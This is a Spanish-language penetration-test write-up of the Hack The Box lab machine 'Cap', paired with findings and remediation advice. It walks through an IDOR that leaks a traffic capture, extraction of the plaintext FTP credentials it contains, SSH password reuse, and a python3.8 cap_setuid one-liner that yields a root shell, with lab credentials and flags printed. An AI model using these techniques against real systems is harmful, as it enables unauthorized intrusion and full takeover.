




# Cap — Informe de Pentest

> Writeup de la máquina **Cap** de [Hack The Box](https://www.hackthebox.com/). Documento con fines educativos, realizado en un entorno de laboratorio autorizado.

## Información general

| Campo                  | Detalle         |
| ---------------------- | --------------- |
| **Máquina**            | Cap     |
| **Sistema operativo**  | Linux          |
| **Dificultad**         | Easy  |
| **Categoría**          | Machine    |
| **Dirección IP**       | `10.129.85.254`        |
| **Fecha de resolución**| 2026-10-19        |
| **Autor del informe**  | NiettoFrann      |
| **Estado**             | Completado     |

## Índice

1. [Resumen ejecutivo](#resumen-ejecutivo)
2. [Hallazgos de un vistazo](#hallazgos-de-un-vistazo)
3. [Alcance y metodología](#alcance-y-metodología)
4. [Cadena de ataque](#cadena-de-ataque)
5. [Reconocimiento](#reconocimiento)
6. [Enumeración](#enumeración)
7. [Explotación (Foothold)](#explotación-foothold)
8. [Escalada de privilegios](#escalada-de-privilegios)
9. [Flags](#flags)
10. [Detalle de hallazgos](#detalle-de-hallazgos)
11. [Plan de remediación priorizado](#plan-de-remediación-priorizado)
12. [Lecciones aprendidas](#lecciones-aprendidas)
13. [Herramientas utilizadas](#herramientas-utilizadas)
14. [Evidencia](#evidencia)
15. [Referencias](#referencias)

---

## Resumen ejecutivo

Se evaluó un servidor Linux expuesto en la red del laboratorio, con los permisos del cliente y sin credenciales previas. El panel web de administración, pensado para visualizar el estado de la red, permitió a cualquier visitante descargar una captura de tráfico histórica sin autenticarse ni confirmar que le pertenecía. Esa captura contenía, en texto plano, el usuario y la contraseña de una cuenta del sistema.

Con esas credenciales se obtuvo acceso de archivos primero y, al comprobar que la misma contraseña también abría una sesión remota interactiva, acceso completo a la línea de comandos del servidor. Una vez dentro, un permiso excesivo asignado a un intérprete de Python permitió ejecutar comandos con los privilegios más altos del sistema, dando control total sobre el servidor.

Ninguno de los dos pasos requirió conocimientos avanzados: el primero consiste en cambiar un número en una dirección web, y el segundo en ejecutar un comando de una sola línea ya documentado públicamente. Esto significa que cualquier persona con acceso de red al panel puede, en minutos, llegar a controlar por completo el servidor y todo lo que procese.

Se recomienda, en un plazo inmediato, retirar del panel la posibilidad de descargar capturas de otras sesiones, eliminar credenciales en texto plano de cualquier tráfico accesible y retirar el permiso elevado del intérprete de Python no utilizado con ese fin.

**Riesgo global: Crítico.**

| Severidad | Cantidad |
| --- | --- |
| Crítica | 1 |
| Alta | 1 |
| Media | 1 |

## Hallazgos de un vistazo

| ID | Hallazgo | Severidad | CVSS | Estado |
| --- | --- | --- | --- | --- |
| H-02 | Descarga no autorizada de capturas de red ajenas (IDOR) con exposición de credenciales en texto plano | Crítica | 9.1 | Explotado |
| H-03 | Permiso Linux excesivo (`cap_setuid`) en el intérprete Python 3.8 | Alta | 7.8 | Explotado |
| H-01 | Panel de administración de red accesible sin autenticación | Media | 5.3 | Explotado |

> H-01 y H-02 están relacionados: H-01 es la puerta de entrada al panel; H-02 es la debilidad concreta que filtró las credenciales. Se documentan por separado porque cada uno tiene una corrección independiente (ver [Plan de remediación](#plan-de-remediación-priorizado)).

## Alcance y metodología

- **Objetivo:** `10.129.85.254` (Cap)
- **Tipo de prueba:** caja negra, sin credenciales previas.
- **Metodología:** Reconocimiento → Enumeración → Explotación → Post-explotación / Escalada de privilegios → Documentación.
- **Entorno:** conexión a la VPN de HTB desde Linux. Prueba realizada en entorno de laboratorio autorizado; no se realizaron acciones de denegación de servicio ni destrucción de datos.

## Cadena de ataque

```text
Reconocimiento (nmap: 21/ftp, 22/ssh, 80/http)
  -> [H-01] Panel "Security Dashboard" accesible sin autenticación
  -> [H-02] IDOR en "Security Snapshot" (parámetro ID): la captura ID=0 expone credenciales FTP en texto plano
  -> Foothold: login FTP como nathan -> user.txt
  -> Reutilización de la misma contraseña en SSH -> shell interactiva
  -> [H-03] Capability cap_setuid en /usr/bin/python3.8
  -> Root -> root.txt
```

---

## Reconocimiento

### Escaneo de puertos

```bash
nmap -p- --min-rate=5000 -T4 -Pn -n -oN loot/puertos.txt 10.129.85.254
nmap -p21,22,80 -sCV -Pn -n -T4 -oN detallado.txt 10.129.85.254
```

| Puerto | Estado | Servicio | Versión |
| ------ | ------ | -------- | ------- |
| 21/tcp | open | ftp | vsftpd 3.0.3 |
| 22/tcp | open | ssh | OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 |
| 80/tcp | open | http | Gunicorn — "Security Dashboard" |

El escaneo completo de puertos (`-p-`) confirma que solo tres servicios están expuestos. El escaneo dirigido con detección de versión (`-sCV`) identifica `vsftpd 3.0.3` en FTP, `OpenSSH 8.2p1` sobre Ubuntu en SSH, y un servidor web **Gunicorn** (backend típico de aplicaciones Python/Flask) cuyo título de página es "Security Dashboard".

> Evidencia: [`loot/puertos.txt`](loot/puertos.txt), [`loot/detallado.txt`](loot/detallado.txt)

## Enumeración

### FTP (puerto 21)

Se probó acceso anónimo contra el servicio FTP; no fue aceptado. Se investigó además la versión `vsftpd 3.0.3` en busca de vulnerabilidades conocidas: la única asociada es una condición de denegación de servicio, descartada por estar fuera del alcance de la prueba (no se ejecutan ataques de disponibilidad).

### HTTP (puerto 80) — Security Dashboard

El sitio alojado en el puerto 80 es un panel de monitoreo de red (**Security Dashboard**) **sin ningún mecanismo de autenticación**: se accede directamente desde el navegador sin usuario ni contraseña (**H-01**).

Dentro del panel, la función **"Security Snapshot (5 Second PCAP + Analysis)"** (`/data/<ID>`) permite disparar una captura de tráfico de 5 segundos y descargarla. Cada captura se referencia mediante un identificador numérico (`ID`) en la URL. Al recorrer manualmente los valores de `ID` se observó:

- Los IDs distintos de `0` (por ejemplo `/data/1`) regeneran una captura nueva en cada consulta: tráfico en vivo al momento de pedirla, con muy pocos paquetes (7 en el ejemplo).

  

- El ID `0` (`/data/0`) **no cambia entre consultas**: siempre devuelve el mismo archivo de 72 paquetes, es decir, una captura histórica almacenada y accesible para cualquier visitante del panel, sin que nadie verifique a quién pertenece (**H-02**, IDOR — Insecure Direct Object Reference).

  

Se descargó la captura correspondiente al `ID 0` y se analizó con Wireshark/`tshark`, filtrando por `tcp.port == 21` (tráfico FTP):

```bash
tshark -r 0.pcap -Y "tcp.port==21" -T fields \
  -e ip.src -e ip.dst -e ftp.request.command -e ftp.request.arg -e ftp.response.arg
```

**Resultado:** la captura (72 paquetes, 2021-05-14, 31 segundos de duración) registra una sesión FTP completa en texto plano, incluyendo el login:

```
USER  nathan
PASS  Buck3tH4TF0RM3!
Login successful.
```

**Decisión:** las credenciales `nathan:Buck3tH4TF0RM3!` quedaron expuestas por un fallo de control de acceso en el panel web, no por un ataque a FTP en sí. Se usan a continuación para autenticarse contra los servicios reales de la máquina.

> Evidencia: [`loot/0.pcap`](loot/0.pcap), [`loot/credentials_wireshark.txt`](loot/credentials_wireshark.txt)

## Explotación (Foothold)

- **Vulnerabilidad:** H-02 — IDOR en el endpoint de descarga de capturas PCAP, que expone credenciales de FTP en texto plano a cualquier visitante no autenticado del panel.
- **Referencia (CVE / técnica):** CWE-639 (Authorization Bypass Through User-Controlled Key) + CWE-312 (Cleartext Storage of Sensitive Information). No aplica CVE: es un error de diseño de la aplicación, no una vulnerabilidad de un producto de terceros.
- **Impacto:** acceso autenticado al sistema como el usuario `nathan`.

### Procedimiento

Con las credenciales obtenidas del pcap, se accedió primero por FTP y se recuperó la flag de usuario:

```bash
ftp 10.129.85.254
# Name: nathan
# Password: Buck3tH4TF0RM3!
ftp> ls
ftp> get user.txt
```

```
230 Login successful.
ftp> ls
-r--------    1 1001     1001           33 Oct 19 19:00 user.txt
ftp> get user.txt
226 Transfer complete.
```



> Evidencia: [`loot/user.txt`](loot/user.txt)

Se probó además la reutilización de la misma contraseña contra el servicio SSH (puerto 22), con resultado positivo: el usuario `nathan` reutiliza la contraseña de FTP para su cuenta del sistema (**H-02**, agravado por una mala práctica de gestión de credenciales).

```bash
ssh nathan@10.129.85.254
# Password: Buck3tH4TF0RM3!
```

```
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

Esto otorgó una shell interactiva completa, en lugar del acceso limitado a archivos que ofrece FTP.



### Estabilización de la shell

No fue necesaria: el acceso se obtuvo directamente por SSH, que ya entrega una shell interactiva y estable (TTY completo), a diferencia de una reverse shell típica de una explotación remota.

## Escalada de privilegios

- **Vector:** H-03 — permiso (*capability*) de Linux `cap_setuid` asignado al binario `/usr/bin/python3.8`, que permite a ese intérprete asumir el UID 0 sin necesidad de `sudo`.
- **Referencia (CVE / técnica / GTFOBins):** [GTFOBins — python (capabilities)](https://gtfobins.github.io/gtfobins/python/#capabilities). CWE-250 (Execution with Unnecessary Privileges).
- **Impacto:** ejecución de comandos arbitrarios como `root`, control total del sistema.

### Enumeración local

```bash
id; sudo -l
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
```

La enumeración de `sudo -l` y de binarios con bit SUID no reveló ningún vector de escalada. La enumeración de **capabilities** (`getcap -r /`) sí:

```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

`/usr/bin/python3.8` tiene asignada `cap_setuid+ep`, un permiso que normalmente solo deberían tener binarios que necesitan cambiar de usuario de forma controlada (como `ping` o servicios de sistema), no un intérprete de propósito general.

### Procedimiento

Siguiendo la técnica documentada en GTFOBins para binarios con `cap_setuid`, se usó Python para asumir el UID 0 y lanzar una shell con privilegios de `root`:

```bash
python3.8 -c 'import os; os.setuid(0); os.execl("/bin/bash", "sh")'
```

```
sh-5.0# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
sh-5.0# bash
root@cap:~# cat /root/root.txt
24060fc87747fad93134cdca35175e32
```



> Evidencia: [`loot/root.txt`](loot/root.txt)

---

## Flags

| Flag     | Valor                 |
| -------- | --------------------- |
| `user.txt` | `c15e0440349e3f5d5c574fee72ad97d8` |
| `root.txt` | `24060fc87747fad93134cdca35175e32` |

## Detalle de hallazgos

### H-01 — Panel de administración de red accesible sin autenticación

| Campo | Detalle |
| --- | --- |
| **Severidad** | Media |
| **CVSS v3.1** | 5.3 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` |
| **CWE** | [CWE-306 – Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html) |
| **CVE** | N/A (error de configuración de la aplicación) |
| **Componente** | Aplicación web "Security Dashboard" — Gunicorn, 80/tcp |
| **Estado** | Explotado y confirmado |

**Descripción.** El panel web de monitoreo de red es accesible sin usuario ni contraseña desde cualquier punto con conectividad al puerto 80.

**Impacto.** Confirmado: cualquier visitante puede ver el estado de la red y disparar/consultar capturas de tráfico. Por sí solo expone información operativa de bajo riesgo, pero es la puerta de entrada que habilita H-02.

**Evidencia.** Acceso directo a `http://10.129.85.254/` sin credenciales.

**Remediación.**
- *Corrección:* exigir autenticación (usuario/contraseña) para acceder a cualquier funcionalidad del panel, incluida la consulta y descarga de capturas.
- *Mitigación:* restringir el acceso al puerto 80 por IP/VPN mientras se implementa autenticación.
- *Detección:* registrar y alertar sobre accesos al panel desde orígenes no esperados.

**Referencias.** CWE-306.

---

### H-02 — Descarga no autorizada de capturas de red ajenas (IDOR) con exposición de credenciales en texto plano

| Campo | Detalle |
| --- | --- |
| **Severidad** | Crítica |
| **CVSS v3.1** | 9.1 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| **CWE** | [CWE-639 – Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html) (IDOR) junto a [CWE-312 – Cleartext Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/312.html) |
| **CVE** | N/A (error de diseño de la aplicación) |
| **Componente** | Endpoint "Security Snapshot" (parámetro `ID`) — 80/tcp |
| **Estado** | Explotado y confirmado |

**Descripción.** El endpoint que sirve capturas de tráfico identifica cada captura por un número secuencial en la URL, sin verificar que quien la pide tenga derecho a verla. La captura con `ID=0` es una grabación histórica fija (no regenerada en cada consulta) que contiene una sesión FTP completa en texto plano, incluidas sus credenciales.

**Impacto.** Confirmado: cualquier visitante sin autenticar puede recuperar usuario y contraseña válidos del sistema (`nathan:Buck3tH4TF0RM3!`) simplemente cambiando un número en la URL. Esas credenciales resultaron además reutilizadas en SSH, lo que las convirtió en acceso interactivo completo al servidor.

**Evidencia.** [`loot/0.pcap`](loot/0.pcap) (filtrado por `tcp.port==21`), [`loot/credentials_wireshark.txt`](loot/credentials_wireshark.txt).

**Remediación.**
- *Corrección:* no referenciar objetos por un ID secuencial predecible; usar identificadores aleatorios (UUID) y validar que el solicitante tenga permiso sobre ese recurso. Eliminar o depurar cualquier captura histórica que contenga credenciales reales.
- *Mitigación:* deshabilitar temporalmente la descarga de capturas antiguas hasta implementar control de acceso; forzar el uso de FTP/credenciales sobre un canal cifrado para que una captura no exponga contraseñas en texto plano.
- *Detección:* alertar sobre descargas repetidas o secuenciales de IDs de captura desde un mismo origen.

**Referencias.** CWE-639, CWE-312, [OWASP – Insecure Direct Object References](https://owasp.org/www-community/attacks/Insecure_Direct_Object_Reference).

---

### H-03 — Permiso Linux excesivo (`cap_setuid`) en el intérprete Python 3.8

| Campo | Detalle |
| --- | --- |
| **Severidad** | Alta |
| **CVSS v3.1** | 7.8 — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | [CWE-250 – Execution with Unnecessary Privileges](https://cwe.mitre.org/data/definitions/250.html) |
| **CVE** | N/A (error de configuración del sistema) |
| **Componente** | `/usr/bin/python3.8` (Linux capabilities) |
| **Estado** | Explotado y confirmado |

**Descripción.** El binario `/usr/bin/python3.8` tiene asignada la capability `cap_setuid=ep`, que le permite cambiar su propio UID a `0` sin pasar por `sudo` ni por ningún control adicional.

**Impacto.** Confirmado: un usuario local sin privilegios (`nathan`) ejecuta una línea de Python para asumir UID 0 y obtener una shell de `root`, logrando control total del sistema (lectura, modificación y persistencia sobre cualquier archivo o servicio).

**Evidencia.** [`loot/root.txt`](loot/root.txt).

**Remediación.**
- *Corrección:* retirar la capability con `setcap -r /usr/bin/python3.8` si no es un requisito funcional real; si lo fuera, sustituir por un binario dedicado y mínimo en lugar de un intérprete de propósito general.
- *Mitigación:* mientras se corrige, auditar y restringir qué usuarios pueden ejecutar `/usr/bin/python3.8`.
- *Detección:* alertar ante binarios con capabilities privilegiadas (`cap_setuid`, `cap_setgid`, `cap_sys_admin`, etc.) fuera de una lista aprobada, mediante revisiones periódicas de `getcap -r /`.

**Referencias.** CWE-250, [GTFOBins – python](https://gtfobins.github.io/gtfobins/python/#capabilities).

## Plan de remediación priorizado

| Prioridad | Acción | Hallazgos | Esfuerzo | Reducción de riesgo | Plazo sugerido |
| --- | --- | --- | --- | --- | --- |
| P1 | Restringir o eliminar el acceso a capturas históricas del panel y purgar cualquier credencial expuesta en ellas | H-02 | Bajo | Crítico → Bajo | Inmediato (24-48 h) |
| P2 | Retirar la capability `cap_setuid` de `/usr/bin/python3.8` (`setcap -r cap_setuid+ep /usr/bin/python3.8`) | H-03 | Bajo | Alto → Bajo | ≤ 7 días |
| P3 | Exigir autenticación en todo el panel "Security Dashboard" | H-01 | Medio | Medio → Bajo | ≤ 30 días |
| P4 | Forzar contraseñas distintas por servicio y evaluar rotación tras el incidente | H-02 | Bajo | Reduce impacto de reutilización de credenciales | ≤ 30 días |

## Lecciones aprendidas

- Un identificador secuencial en una URL (`ID` de captura) es, en la práctica, tan sensible como una contraseña si detrás hay datos que no deberían ser públicos: conviene tratarlo con el mismo cuidado que cualquier control de acceso.
- Las capabilities de Linux (`getcap -r /`) son un vector de escalada tan relevante como el SUID o `sudo -l`, y conviene incluirlas de forma sistemática en la enumeración local, incluso cuando los otros dos no arrojan resultados.

## Herramientas utilizadas

| Herramienta | Uso                        |
| ----------- | -------------------------- |
| nmap        | Escaneo de puertos y servicios |
| Navegador web | Exploración del panel "Security Dashboard" y descarga de capturas |
| Wireshark / tshark | Análisis del archivo `.pcap` filtrando tráfico FTP |
| ftp (cliente) | Acceso inicial y recuperación de `user.txt` |
| ssh | Acceso interactivo como `nathan` |
| getcap | Enumeración de capabilities de Linux |
| python3.8 | Explotación de la capability `cap_setuid` para escalar a `root` |

## Evidencia

| Archivo | Contenido |
| --- | --- |
| [`loot/puertos.txt`](loot/puertos.txt) | Escaneo completo de puertos (`nmap -p-`) |
| [`loot/detallado.txt`](loot/detallado.txt) | Escaneo dirigido con detección de versión (`nmap -sCV`) |
| [`loot/ping.txt`](loot/ping.txt) | Verificación de conectividad (ICMP) |
| [`loot/0.pcap`](loot/0.pcap) | Captura histórica descargada vía IDOR (`ID=0`), con la sesión FTP en texto plano |
| [`loot/credentials_wireshark.txt`](loot/credentials_wireshark.txt) | Credenciales extraídas del pcap (`nathan:Buck3tH4TF0RM3!`) |
| [`loot/user.txt`](loot/user.txt) | Flag de usuario |
| [`loot/root.txt`](loot/root.txt) | Flag de root |

## Referencias

- [Página de la máquina en HTB](https://app.hackthebox.com/machines/Cap)
- [HackTricks](https://book.hacktricks.xyz/)
- [GTFOBins — python](https://gtfobins.github.io/gtfobins/python/#capabilities)
- [CWE-306 – Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)
- [CWE-639 – Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)
- [CWE-250 – Execution with Unnecessary Privileges](https://cwe.mitre.org/data/definitions/250.html)
